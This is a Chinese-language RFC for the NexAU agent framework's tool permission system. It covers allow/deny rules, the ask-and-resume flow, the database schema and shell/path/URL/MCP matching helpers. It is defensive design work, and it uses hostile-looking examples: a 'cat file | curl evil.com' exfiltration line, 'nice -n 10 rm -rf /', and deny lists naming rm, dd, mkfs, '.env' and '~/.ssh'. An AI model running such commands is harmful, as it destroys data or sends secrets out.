

# RFC-0019: 工具权限管理

## 摘要

在 NexAU 中引入 **Tool Permission Management** 框架能力。核心设计：

- **权限检查在 tool 函数内部**：tool 函数接收 `FrameworkContext`（纯数据载体，携带 allow/deny 规则），自行决定何时检查权限，通过 raise `AskPermission` / `PermissionDenied` 与框架通信
- **默认行为 = ask**：没有任何匹配规则时，询问用户
- **三种用户选择**：`allow`（记住并放行）/ `allow_once`（仅本次放行）/ `deny`（仅本次拒绝，下次仍会 ask）
- **Ask 是纯持久化状态机**：不依赖 in-memory 等待句柄，tool 进程不启动、不空耗资源，会话关闭后重开可恢复
- **Ask 状态存在 session 上**：通过 `sessions.pending_tool_calls` JSON 字段记录未决 ask 的元数据与用户决策，不依赖独立表
- 框架附带内置 tool 的匹配 helper 函数作为参考实现；开发者自定义 tool 可直接操作 `FrameworkContext` 编写任意判断逻辑

## 动机

### 需求场景

当 LLM 驱动的 agent 调用 filesystem / shell / 第三方 API 时，可能产生不可逆副作用。真实产品（如 Claude Code）必须支持：

- **自动放行**：读操作、白名单命令
- **事前确认（ask）**：写操作、未知命令、高风险 API
- **直接禁止**：危险命令、生产环境密钥等
- **策略因工具类型、参数、session 状态而异**

### 设计原则

1. **每种工具有自己的权限逻辑**：tool 作者最了解自己工具的语义（哪些参数危险、哪些操作安全），权限判断应在 tool 函数内部完成
2. **权限检查先于一切**：tool 函数必须在入口处（任何资源分配、网络连接、子进程启动之前）完成权限检查。如果 raise `AskPermission`，此时 tool 尚未占用任何资源，不存在清理问题
3. **默认安全**：没有规则 = 问人。不是"没有规则 = 放行"
4. **Ask 不占资源**：ask 期间不挂着 tool 进程，会话关闭重开能恢复
5. **框架提供机制，tool 决定策略**：框架负责 allow/deny 规则存储、Ask 状态持久化、resume 流程；tool 负责何时检查权限、用什么粒度匹配、传什么 `permission_key`

### CC（Claude Code）的参考模型

CC 的权限模型可以概括为三句话：
1. 默认 ask（没有规则命中就问用户）
2. allow / deny list 做例外
3. mode 是例外的批量快捷方式（如 acceptEdits = 对写类 tool 批量加 allow）

本 RFC 的核心机制与 CC 一致（默认 ask + allow/deny 规则），但实现方式不同：CC 是 CLI 工具，ask 时同步阻塞终端等用户输入；NexAU 是框架，ask 通过 DB 持久化 + 停 run + resume 实现，支持 Web/桌面等异步场景。

## 设计

### FrameworkContext（纯数据载体）

`FrameworkContext` 只携带规则数据，不包含匹配逻辑。tool 函数读取其中的规则自行判断，通过 raise `AskPermission` / `PermissionDenied` 与框架通信。

```python
@dataclass
class FrameworkContext:
    session_id: str
    tool_name: str
    allow_rules: list[str]    # 已持久化的 allow 规则
    deny_rules: list[str]     # 已持久化的 deny 规则
```

Executor 在每次 tool call 前构造 `FrameworkContext`：
1. 从 DB 读取该 session + tool_name 的所有规则（tool YAML 配置的初始规则 + 用户 allow 决策积累的）
2. 装入 `FrameworkContext`，传给 tool 函数

### Tool 函数集成

tool 函数签名新增 `ctx: FrameworkContext` 参数，在入口处完成权限检查。内置 tool 使用框架附带的 helper 函数：

```python
from nexau.archs.permissions import check_shell_permission

def run_shell_command(command: str, ctx: FrameworkContext) -> str:
    # 入口处检查权限，在任何资源分配之前
    check_shell_permission(ctx, command)
    # 通过后才执行实际操作
    return subprocess.run(command, ...).stdout
```

#### 内置 tool 的匹配 helper（参考实现）

框架附带以下 helper 函数，封装了"匹配规则 + raise 异常"的常见模式。开发者可以直接使用，也可以参考其实现编写自己的判断逻辑：

- **`check_permission(ctx, permission_key, prompt)`**：通用三态检查。对 `permission_key` 与 allow/deny rules 做精确匹配：命中 allow → 返回、命中 deny → raise `PermissionDenied`、无命中 → raise `AskPermission`。适用于自定义 tool
- **`check_path_permission(ctx, path)`**：路径专用。使用 `pathspec` 库（gitignore 语义）做模式匹配，三态行为同上。供 read_file / write_file / edit_file 使用
- **`check_shell_permission(ctx, command)`**：命令专用。使用 `shlex` 解析出首词做精确匹配，三态行为同上。供 run_shell_command 使用

#### 开发者自定义 tool 的灵活度

开发者的 tool 函数自行决定何时调用 `check_permission`。权限检查必须在函数入口处、任何实际操作（网络请求、资源分配等）之前完成：

```python
def check_permission(ctx: FrameworkContext, permission_key: str, prompt: str) -> None:
    """通用三态检查（参考实现）。"""
    if permission_key in ctx.deny_rules:
        raise PermissionDenied(reason=f"{permission_key} 被禁止")
    if permission_key not in ctx.allow_rules:
        raise AskPermission(prompt=prompt, permission_key=permission_key)

def stripe_api(action: str, api_key: str, amount: int, ctx: FrameworkContext) -> str:
    # 读操作: 安全操作，不需要权限检查
    if action in ("list", "retrieve"):
        return call_stripe(action, api_key)

    # 测试环境: 非生产，不需要权限检查
    if api_key.startswith("sk_test_"):
        return call_stripe(action, api_key, amount)

    # 生产 + 写操作: 先检查权限，再执行实际 API 调用
    check_permission(
        ctx,
        permission_key=action,
        prompt=f"允许在生产环境执行 {action}（金额 {amount}）吗?",
    )
    return call_stripe(action, api_key, amount)
```

这种"读不查、测试不查、生产写才查"的逻辑，只有 tool 函数自己能表达。注意 `check_permission` 在 `call_stripe()` 之前——如果内部 raise `AskPermission`，不会有任何 API 调用发生。

### Tool 配置中的权限规则（初始规则）

权限检查逻辑（HOW）和 tool 函数耦合——tool 决定何时调用 `check_permission`、用什么粒度匹配。规则数据（WHAT）在 tool 的 YAML 配置中声明，和 `binding` 同级：

```yaml
tools:
  - name: read_file
    yaml_path: ./tools/read_file.tool.yaml
    binding: nexau.archs.tool.builtin.file_tools:read_file
    permissions:
      allow:
        - "/workspace/**"
      deny:
        - ".env"
        - "~/.ssh/**"

  - name: run_shell_command
    yaml_path: ./tools/run_shell_command.tool.yaml
    binding: nexau.archs.tool.builtin.shell_tools:run_shell_command
    permissions:
      allow: ["ls", "cat", "grep", "pwd"]
      deny: ["rm", "dd", "mkfs"]

  # 也支持指向外部文件
  - name: stripe_api
    yaml_path: ./tools/stripe_api.tool.yaml
    binding: app.tools.stripe:stripe_api
    permissions: ./permissions/stripe.yaml

  # 没有 permissions 字段 → 默认 allow: ["**"], deny: []（向后兼容）
  - name: write_file
    yaml_path: ./tools/write_file.tool.yaml
    binding: nexau.archs.tool.builtin.file_tools:write_file
```

- **无 `permissions` 字段**（默认）= 等价于 `allow: ["**"], deny: []`，所有调用自动放行，行为与当前一致（向后兼容）
- **`permissions` 有值但 allow/deny 为空** = 权限检查激活但无初始规则，所有调用默认 ask
- 初始规则在 session 创建时写入 DB 作为基线，用户在 session 中的 allow 决策在此基础上**追加**
- 同一个 tool 在不同 agent 的 YAML 配置中可以声明不同的 allow/deny 规则

### 匹配粒度由 tool 决定

tool 函数自行决定以什么粒度匹配规则、raise `AskPermission` 时传什么 `permission_key`，这决定了用户 allow 的记忆粒度：

```python
# 首词匹配（宽松）— 内置 shell helper 的做法
head = shlex.split(command)[0]     # permission_key = "npm"

# 全路径匹配（精确）— 内置 filesystem helper 的做法
path = resolve(path)               # permission_key = "/workspace/src/main.py"

# 自定义维度 — 开发者自己的 tool
action = "charge"                  # permission_key = "charge"
```

用户 allow 的记忆粒度与 `permission_key` 一致——allow 的是这个 key，不是整个 tool。

#### `"**"` 通配符约定

所有 tool 的权限检查逻辑统一约定：如果 `allow_rules` 中包含 `"**"`，则**无条件放行**，跳过后续匹配。这不作为代码强制，而是 tool 实现和 helper 函数共同遵循的约定。

这一约定使得向后兼容自然成立——无 `permissions` 字段的 tool 默认 `allow: ["**"]`，`check_permission` 和各 helper 看到 `"**"` 直接返回，行为等价于无权限检查。

### Ask 机制

#### 触发

tool 函数（或 helper）在匹配不到 allow/deny 规则时 raise `AskPermission`：

```python
raise AskPermission(
    prompt="允许执行 npm install 吗?",
    permission_key="npm",    # 用户 allow 时持久化的 key
)
```

`AskPermission` 携带 `prompt`（展示给用户的描述）和 `permission_key`（用于写 allow 规则）。`tool_call_id` / `tool_name` 由 executor 从调用上下文补充，tool 函数不需要感知。

选项固定为三种：`allow`（记住并放行）/ `allow_once`（仅本次放行）/ `deny`（仅本次拒绝），由框架统一提供，tool 函数不需要指定。

#### Executor 处理

**并行安全**：同 turn 内多条 tool_call 并行执行时，executor 必须在每条 tool call 外层独立 catch 异常，将结果收集为普通返回值后统一处理，避免 `asyncio.gather` 默认行为下第一个异常吞掉其余异常：

```python
async def _execute_one(self, tool_call, ctx) -> ToolOutcome:
    try:
        result = await tool_fn(**args, ctx=ctx)
        return AllowOutcome(tool_call_id=..., result=result)
    except PermissionDenied as e:
        return DenyOutcome(tool_call_id=..., reason=e.reason)
    except AskPermission as e:
        return AskOutcome(tool_call_id=..., prompt=e.prompt, permission_key=e.permission_key)

outcomes = await asyncio.gather(*[self._execute_one(tc, ctx) for tc in tool_calls])
```

统一处理阶段：

```
outcomes 逐条处理：
  ├─ AllowOutcome  → 写 ToolResult
  ├─ DenyOutcome   → 写 denial ToolResult（is_error=True）
  └─ AskOutcome    → 写入 session.pending_tool_calls，不写 ToolResult

所有 outcome 处理完毕后：
  ├─ 无 Ask → 继续 LLM loop
  └─ 有 Ask → agent.run() 干净返回 status=paused_for_permissions
```

**注意**：Ask 的 tool_call 不写 ToolResult，history 停在 orphan tool_use 状态。同 turn 内其余 Allow/Deny 的 tool_call 已有 ToolResult，不受影响。这是安全的，因为 session 进入 `awaiting_permission` 状态，硬拦保证 LLM 不会看到不完整的 history。

#### 用户决策与 Resume

用户看到 ask 面板后做出选择：

| 选择 | 框架行为 | 持久化 |
|------|---------|--------|
| **allow** | 写 allow 规则到 DB，re-call tool 函数（这次匹配命中 allow → 放行） | 是，后续同参数调用自动放行 |
| **allow_once** | 将 `permission_key` 临时加入 ctx 的 `allow_rules`（不写 DB），re-call tool 函数（匹配命中 → 放行） | 否，下次还会 ask |
| **deny** | 不 re-call tool，直接合成 denial ToolResult | 否，下次还会 ask（对齐 CC） |

**deny 不持久化**（对齐 CC）：用户点 deny 只拒绝这一次调用，不往 `permission_rules` 表写规则。下次 LLM 再发起相同调用，tool 函数仍然匹配不到规则，走到 ask。这给了用户随时改变主意的机会——deny 不是"封杀"，只是"这次不要"。

Resume 后 executor 写 ToolResult（真实结果或 denial），orphan tool_use 闭合，继续 LLM loop。

**一个 tool_use 永远只对应一条 ToolResult**，不管走 ask → allow 还是直接放行。

### 同 turn 内混合决策

一个 turn 内 LLM 同时发起 `[T1, T2, T3]`，各自 tool 函数的权限检查判决出 `[Allow, Ask, Deny]` 时：

- **T1（Allow）**：立即执行，写 ToolResult
- **T3（Deny）**：立即写 denial ToolResult（`is_error=True`）
- **T2（Ask）**：写入 `session.pending_tool_calls`，run 结束

已执行的 Allow/Deny 结果留在 history。只有 Ask 的 tool_call 悬挂为 orphan。

**备选方案**：全 turn 冻结，见「备选方案 A2」。

### Session 状态机与 agent.run() 硬拦

Session 在 permission 维度有三个状态：

```
idle                ← 可以起新 run
  │
  ↓ agent.run() 开始
running             ← 正在跑 LLM loop, UI 输入框 disable
  │
  ↓ 遇到 Ask, 写入 session.pending_tool_calls, run 结束
awaiting_permission ← pending_tool_calls 中有 decision=null, UI 输入框 disable + 展示 ask 面板
  │
  ↓ 所有 decision 非 null
running (resume)    → idle (run 完成后)
```

**硬拦规则**：

```python
def run(...):
    pending = self._storage.get_session(session_id).pending_tool_calls
    if pending and any(v["decision"] is None for v in pending.values()):
        raise PendingPermissionsError(session_id=session_id, pending=pending)
    # 正常 run loop ...
```

- **前端**：`awaiting_permission` 状态禁用输入框（产品主防线，用户无法输入新消息）
- **后端**：硬拦作为纵深防御，保障脚本调 API / 非 UI 客户端 / race condition

### 数据库 Schema

#### `permission_rules` 表（allow/deny 规则持久化）

| 字段 | 类型 | 说明 |
|------|------|------|
| `session_id` | TEXT FK | `ON DELETE CASCADE` |
| `tool_name` | TEXT | |
| `rule_content` | TEXT | 匹配内容（如 `"npm"`, `"/workspace/**"`） |
| `behavior` | TEXT | `allow` / `deny` |
| `source` | TEXT | `config`（来自 AgentConfig）/ `user`（用户决策） |
| `created_at` | TIMESTAMP | |
| PK | `(session_id, tool_name, rule_content, behavior)` | |

Session 创建时，遍历 agent 的 tool 列表，将各 tool YAML 配置中的 `permissions` 初始化为 `source=config` 的规则行（allow 和 deny 都可能来自 config）。没有 `permissions` 的 tool 不写入规则。
用户在 session 中点 allow 时追加 `source=user, behavior=allow` 的规则行。**deny 不写入此表**——deny 是单次的，不影响后续调用。
`FrameworkContext` 构造时读取该 session + tool_name 的所有规则。

#### `sessions.pending_tool_calls` 字段（Ask 状态）

在现有 `sessions` 表上新增一列：

```sql
ALTER TABLE sessions ADD COLUMN pending_tool_calls JSON DEFAULT NULL;
```

JSON 结构（以 `tool_call_id` 为 key）：

```json
{
  "tc_abc": {
    "tool_name": "run_shell_command",
    "prompt": "允许执行 npm install 吗?",
    "permission_key": "npm",
    "decision": null
  },
  "tc_def": {
    "tool_name": "run_shell_command",
    "prompt": "允许执行 rm -rf dist 吗?",
    "permission_key": "rm",
    "decision": "allow"
  }
}
```

- **`NULL`（列值）**：没有未决 ask，正常状态
- **有值且含 `decision: null` 的条目**：`awaiting_permission`，硬拦生效
- **所有 `decision` 非 null**：可触发 resume
- **resume 处理完毕后**：整列写回 `NULL`

**前端一条条处理**：UI 读取此字段，逐条展示 ask card 让用户决策。每次用户决策后更新对应条目的 `decision`。中途关窗口 OK——已 resolve 的保留 decision，未 resolve 的继续 null，下次打开接着处理。

**级联清理**：session 删除时 `ON DELETE CASCADE` 自动清 permission_rules。`pending_tool_calls` 作为 session 自身的字段，随 session 一起删除。

#### 数据库迁移脚本

旧项目升级时需要自动执行迁移。框架在启动时检测 schema 版本，若缺少权限相关表/字段则执行 `001_tool_permission.sql`：

```sql
-- 001_tool_permission.sql
-- 幂等：使用 IF NOT EXISTS，可重复执行

CREATE TABLE IF NOT EXISTS permission_rules (
    session_id  TEXT NOT NULL REFERENCES sessions(id) ON DELETE CASCADE,
    tool_name   TEXT NOT NULL,
    rule_content TEXT NOT NULL,
    behavior    TEXT NOT NULL CHECK (behavior IN ('allow', 'deny')),
    source      TEXT NOT NULL CHECK (source IN ('config', 'user')),
    created_at  TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP,
    PRIMARY KEY (session_id, tool_name, rule_content, behavior)
);

-- SQLite 不支持 ADD COLUMN IF NOT EXISTS，用 pragma 检测后条件执行
-- 框架层用 Python 检测列是否存在，不存在时执行：
-- ALTER TABLE sessions ADD COLUMN pending_tool_calls JSON DEFAULT NULL;
```

框架启动时的迁移检测逻辑：

```python
def migrate_001_tool_permission(db):
    # 1. permission_rules 表（CREATE IF NOT EXISTS 天然幂等）
    db.execute(PERMISSION_RULES_DDL)

    # 2. sessions.pending_tool_calls 列（SQLite 无 IF NOT EXISTS 语法，需检测）
    columns = {row["name"] for row in db.execute("PRAGMA table_info(sessions)")}
    if "pending_tool_calls" not in columns:
        db.execute("ALTER TABLE sessions ADD COLUMN pending_tool_calls JSON DEFAULT NULL")
```

### Resume 语义

`agent.run()` 检测到 `pending_tool_calls` 所有 `decision` 均非 null 后进入 resume 路径：

1. 读出 `session.pending_tool_calls`
2. 按 `tool_call_id` 逐条处理：
   - `decision=allow`：写 `permission_key` 到 `permission_rules` 表（`source=user, behavior=allow`），重新调用 tool 函数（这次匹配命中 allow 规则 → 放行 → 正常执行）
   - `decision=allow_once`：构造 `FrameworkContext` 时将 `permission_key` 临时加入 `allow_rules`（不写 DB），重新调用 tool 函数（匹配命中 allow → 放行）
   - `decision=deny`：合成 denial ToolResult（不调用 tool 函数，不写规则）
3. 所有 orphan tool_use 对应的 ToolResult 写入 history（闭合）
4. `session.pending_tool_calls` 写回 `NULL`
5. 进入正常的 LLM loop

**幂等性**：resume 过程中进程挂掉时，通过逐条处理 + 标记已消费条目确保 allow 类 tool 不会被重复执行。具体做法：每条 tool 执行成功后立即将该条目的 `decision` 更新为 `consumed`，重试时跳过已 consumed 的条目。

## 备选方案

### A1. 软返 vs 硬拦（定：硬拦）

**方案**：`agent.run()` 检测到未决 pending 时返回 `RunResult(status="paused_for_permissions", pending=[...])`，不抛异常。

**不选的原因**：
- 调用方容易忽略特定状态，导致"静默继续跑"
- NexAU 其他阻塞态（`SessionNotFound`、`AgentLockError`）都用异常，保持一致

### A2. 全 turn 冻结 vs 立刻执行 Allow/Deny（定：立刻执行）

**方案**：同 turn 内 `[Allow, Ask, Deny]` 混合时，三条都挂起，等 Ask resolve 后再一起处理。

**优点**：turn 原子，副作用可回退。

**不选的原因**：增加延迟和状态机复杂度；Allow 语义是"已批准"，延迟执行违反直觉。

### A3. 独立 PermissionPolicy 对象 vs 函数内检查（定：函数内）

**方案**：定义独立的 `PermissionPolicy` Protocol，通过 `AgentConfig.permissions: dict[str, PermissionPolicy]` per-tool 绑定。权限检查在 tool 调用前（pre-dispatch）由框架执行。

```python
class PermissionPolicy(Protocol):
    def check(self, tool: Tool, ctx: PolicyContext, **input_kwargs) -> PermissionDecision: ...

AgentConfig(permissions={"run_shell_command": BashPermissionPolicy(safe={"ls"}, ...)})
```

**优点**：
- 框架强制检查，tool 作者不可能忘记
- 权限逻辑与 tool 实现解耦，可独立测试

**不选的原因**：
- Tool 作者最了解自己工具的语义，把判断逻辑放在函数内部更自然（如 Stripe 例子中"读不查、测试不查、生产大额才查"）
- 独立 Policy 对象增加了抽象层数，但没带来本质上更强的能力——Ask 的核心机制（raise → persist → stop → resume）两种方案相同
- "每种工具有自己的 PermissionPolicy"这一原则，通过函数内 raise `AskPermission` / `PermissionDenied` 同样满足

**折中可能**：两种方案可以共存。框架内置 tool 用 pre-dispatch 保证安全兜底，开发者自定义 tool 用函数内检查获得灵活度。但 MVP 阶段先只做函数内方案，按需再补 pre-dispatch。

### A4. 跨 tool 的 policy list（rejected）

**方案**：`AgentConfig.permissions: list[PermissionPolicy]`，每个 policy 通过 `applies_to(tool)` 声明管哪些 tool，多个 policy 对同一 tool call 投票。

**不选的原因**：多 policy 投票的合并语义与白名单矛盾。"最严格者胜"（deny > ask > allow）下，白名单的 Allow 永远被其他 policy 的 Ask/Deny 覆盖，形同虚设。要让白名单生效就得引入优先级或 override 机制，复杂度急增。Per-tool 模型（无论是独立 Policy 还是函数内检查）不存在这个问题。

## 实现补遗（RFC 设计 vs 实际实现）

> 本节记录实际实现中对 RFC 原始设计的扩展和偏离。RFC 正文保留原始设计讨论不做修改；本节作为实现后的补充记录，呈现设计→落地过程中的演化。
>
> 实现代码: `nexau/archs/permissions/helpers.py`
> CC 对齐参考配置: `examples/cc_agent/cc_agent.yaml`
> E2E 测试记录: `docs/testing/permission-e2e-manual-test-log.md`（60 项测试，60/60 PASS）

### Helper 函数扩展: 3 → 5

RFC 设计了 3 个 helper（`check_permission` / `check_path_permission` / `check_shell_permission`）。实际实现扩展为 5 个：

| Helper | RFC 设计 | 实际实现 | 变化 |
|--------|---------|---------|------|
| `check_permission` | 通用精确匹配 | 不变 | — |
| `check_path_permission` | pathspec gitignore 语义 | 扩展：目录级 glob 持久化 + 保护路径检测 | 扩展 |
| `check_shell_permission` | `shlex.split()[0]` 首词匹配 | 大幅扩展：CC 完整 Bash 权限模型 | **重写** |
| `check_url_permission` | — | 域名级三态检查（fnmatch 通配） | **新增** |
| `check_mcp_permission` | — | MCP 工具级三态检查（server/tool 双层） | **新增** |

### check_shell_permission 完整实现

RFC 原描述为「uses `shlex.split(command)[0]` to extract the command head，三态行为同上」。实际实现对齐 CC 的完整 Bash 权限模型，远比首词匹配复杂：

#### 1. Readonly 命令白名单（自动放行）

```python
_READONLY_COMMANDS = frozenset({
    # CC 文档核心: ls, cat, head, tail, grep, find, wc, diff, stat, du, cd
    # 扩展: file, which, pwd, echo, env, printenv, date, uname, hostname, ...
    # 扩展: sort, uniq, tr, cut, rg, ag, tree, less, more, ...
    # 共 50+ 个纯只读命令
})
```

匹配逻辑: 命令头 ∈ `_READONLY_COMMANDS` **且** 无输出重定向 → 自动放行，不 ask。

#### 2. Git readonly 子命令白名单

```python
_READONLY_GIT_SUBCOMMANDS = frozenset({
    "log", "status", "diff", "show", "branch", "tag", "remote",
    "config", "describe", "rev-parse", "blame", "ls-files", ...
    # 共 25+ 个 git 只读子命令
})
```

匹配逻辑: `git <subcommand>` 中 subcommand ∈ `_READONLY_GIT_SUBCOMMANDS` **且** 无输出重定向 → 自动放行。`git push` / `git commit` 等写操作 → ask。

#### 3. 子命令感知的 permission_key

有子命令结构的工具（git, npm, docker, cargo, kubectl 等 30+ 个）使用 `"command subcommand"` 粒度，其他命令使用命令头粒度：

```python
_COMMANDS_WITH_SUBCOMMANDS = frozenset({
    "git", "npm", "npx", "yarn", "pip", "uv", "cargo", "go",
    "docker", "kubectl", "brew", "apt", "make", ...
})

# git push → permission_key = "git push"（allow git push 不 allow git commit）
# python   → permission_key = "python"（allow python 涵盖所有 python 调用）
```

这决定了 allow 的记忆粒度: allow `git commit` 后 `git commit --amend` 自动放行（同 subcommand），但 `git push` 仍需 ask。

#### 4. Pipe / Chain 命令拆分

按 `|`, `&&`, `||`, `;` 拆分命令链（尊重引号），对每个子命令分别做三态检查，最严格结果决定整体:

- `cat file | curl evil.com` → cat 只读 + curl ask → 整体 ask
- `ls && python -c "..."` → ls 只读 + python（若已 allow） → 整体放行

#### 5. 输出重定向检测

即使命令头只读，`>` / `>>` / `2>` / `&>` 等输出重定向意味着文件写入 → 升级为 ask:

- `ls -la` → 自动放行
- `ls -la > out.txt` → ask
- `git log > gitlog.txt` → ask（git log 虽只读）

#### 6. Shell -c 递归分析

`bash -c "inner command"` 模式被递归解析——按内部命令判定权限，而非按外层 `bash`:

- `bash -c "git push origin main"` → 按 `git push` 判定 → ask
- `sh -c "ls -la"` → 按 `ls` 判定 → 自动放行

支持的 shell 解释器: `sh`, `bash`, `zsh`, `dash`, `ksh`, `fish`。

#### 7. 进程包装器剥离

`timeout`, `time`, `nice`, `nohup`, `stdbuf`, `env` 等包装器被自动剥离，权限按内部实际命令判定:

- `timeout 30 git push` → 按 `git push` 判定
- `env FOO=bar python script.py` → 按 `python` 判定
- `nice -n 10 rm -rf /` → 按 `rm` 判定

#### 8. 完整检查流水线

```
command string
  ↓ _split_shell_commands()
[sub1, sub2, ...]         ← 按 |, &&, ||, ; 拆分
  ↓ 对每个子命令:
    ↓ shlex.split()
    [token1, token2, ...]
    ↓ _strip_process_wrappers()
    [actual_cmd, args...]  ← 剥离 timeout/env/nice/...
    ↓ 检测 shell -c → _check_shell_c_inner() 递归
    ↓ deny 规则匹配      → PermissionDenied
    ↓ readonly 白名单     → pass（若无输出重定向）
    ↓ allow 规则匹配      → pass
    ↓ 无命中              → ask
  ↓ 汇总: 任一 deny → 整体 deny; 任一 ask → 整体 ask; 全 pass → 放行
```

#### CC 对齐: No Hardcoded Deny

RFC 示例中 `deny: ["rm", "dd", "mkfs"]` 反映的是 RFC 设计时的思路。实际实现对齐 CC 后采用 **no hardcoded deny** 策略: `rm` 不在 deny 列表而是走 ask（不在 readonly 白名单 → 无 allow 规则命中 → ask）。用户可以选择 allow / deny。

CC agent 的 shell 配置:
```yaml
- name: run_shell_command
  permissions:
    allow: []    # readonly 白名单在代码中，不在配置里
    deny: []     # 无 hardcoded deny — 用户决定
```

### check_path_permission 实现扩展

RFC 描述为「uses `pathspec` (gitignore semantics) to match path」。实际实现扩展了两个 CC 对齐特性:

#### 1. 目录级 glob 持久化

allow 一个文件时，`permission_key` 不是精确文件路径而是目录级 glob:

```python
def _path_to_dir_glob(path: str) -> str:
    # /workspace/src/main.py → /workspace/src/**
    parent = PurePosixPath(path).parent
    return str(parent) + "/**"
```

效果: 用户 allow `/workspace/hello.py` → 持久化 `/workspace/**` → 同目录下所有文件自动放行。对齐 CC 的「allow 一个文件后同目录文件不再 ask」行为。

#### 2. 保护路径强制 ask

即使目录已被 allow，以下路径仍然强制 ask（提示词包含"受保护路径"）:

```python
_PROTECTED_DIRS = frozenset({".git", ".vscode", ".idea", ".husky", ".claude"})
_PROTECTED_FILES = frozenset({
    ".gitconfig", ".gitmodules",
    ".bashrc", ".bash_profile", ".zshrc", ".zprofile", ".profile",
    ".ripgreprc", ".mcp.json", ".claude.json",
})
```

逻辑: `"**"` 通配符放行时也检查保护路径 → 保护路径 ask → 用户必须对每个保护路径单独决策。

### check_url_permission（新增）

RFC 未涉及 web_fetch 的权限模型。实际实现新增 `check_url_permission`，按域名级控制:

```python
def check_url_permission(ctx, url):
    hostname = urlparse(url).hostname
    # deny 匹配（支持 *.example.com fnmatch 通配）
    # allow 匹配（同上）
    # 无命中 → AskPermission(permission_key=hostname)
```

- permission_key = hostname（如 `example.com`）
- allow `example.com` 后同域名所有 URL 自动放行，不同域名独立 ask
- 支持 fnmatch 通配: `*.github.com` 匹配所有 GitHub 子域

CC agent 配置:
```yaml
- name: web_fetch
  permissions:
    allow: []    # 每个新域名首次 ask
    deny: []
```

### check_mcp_permission（新增）

RFC 未涉及 MCP 工具的权限模型。实际实现新增 `check_mcp_permission`，支持 server 级和 tool 级双层匹配:

#### Permission Key 结构

```
mcp__{server_name}__{tool_name}
例: mcp__filesystem__directory_tree
```

#### 匹配逻辑（双层）

```python
def check_mcp_permission(ctx, server_name, tool_name):
    server_key = f"mcp__{server_name}"          # server 级
    tool_key = f"mcp__{server_name}__{tool_name}"  # tool 级

    # deny: server_key 或 tool_key 命中 → PermissionDenied
    # allow: server_key 或 tool_key 命中 → 放行
    # 无命中 → AskPermission(permission_key=tool_key)
```

- **tool 级 allow**: allow `mcp__filesystem__directory_tree` → 仅该工具自动放行，同 server 的 `search_files` 仍需 ask
- **server 级 allow**: allow `mcp__filesystem` → 该 server 下所有工具自动放行
- **默认 always-ask**: MCP server 配置 `permissions: {allow: [], deny: []}` → 每个工具首次调用都 ask

#### CC Agent 配置

```yaml
mcp_servers:
  - name: filesystem
    type: stdio
    command: npx
    args: ['-y', '@modelcontextprotocol/server-filesystem', '/private/tmp/workspace']
    timeout: 30
    permissions:
      allow: []    # 每个 MCP 工具首次 ask
      deny: []
```

MCP 工具在 agent 启动时从 MCP server 动态发现（如 `@modelcontextprotocol/server-filesystem` 提供 14 个工具），权限按 `mcp__{server}__{tool}` 粒度逐个管理。与 shell 的 head/subcommand 双层匹配模式（如 `git` / `git push`）在设计上同构。

### 实现与 RFC 设计的对照总结

| 维度 | RFC 设计 | 实际实现 | 原因 |
|------|---------|---------|------|
| Helper 数量 | 3 个 | 5 个（+url, +mcp） | web_fetch 和 MCP 是独立权限域 |
| Shell 匹配 | 首词精确匹配 | 完整 CC Bash 模型（8 层流水线） | CC 的 shell 权限远比首词匹配复杂 |
| Path 匹配 | pathspec gitignore | + 目录级 glob + 保护路径 | CC 的 allow-one-file-allow-dir 和 protected path |
| 配置示例 | `deny: ["rm", "dd"]` | `deny: []`（no hardcoded deny） | CC 策略: 用户决定，不预设 deny |
| MCP 工具 | 未涉及 | server/tool 双层匹配 | MCP 是独立的工具来源，需要独立权限模型 |
| 参考配置 | 无 | `examples/cc_agent/cc_agent.yaml` | 19 个工具 + 1 个 MCP server 的完整配置 |
| E2E 验证 | 测试计划 4 条 | 60 项手工 E2E 全部 PASS | 覆盖所有工具类型和权限粒度 |

## 迁移

本 RFC 为**新增能力**，现有 tool（YAML 中无 `permissions` 字段）默认 `allow: ["**"], deny: []`，权限检查命中 `"**"` 直接放行，行为与当前一致。升级 NexAU 不会改变任何现有 tool 的默认行为。

下游项目（North Coder）接入时：
1. 升级 NexAU 到含本 RFC 的版本
2. 为需要权限控制的 tool 函数添加 `ctx: FrameworkContext` 参数，在入口处编写权限检查逻辑（可使用框架 helper 或参考其实现）
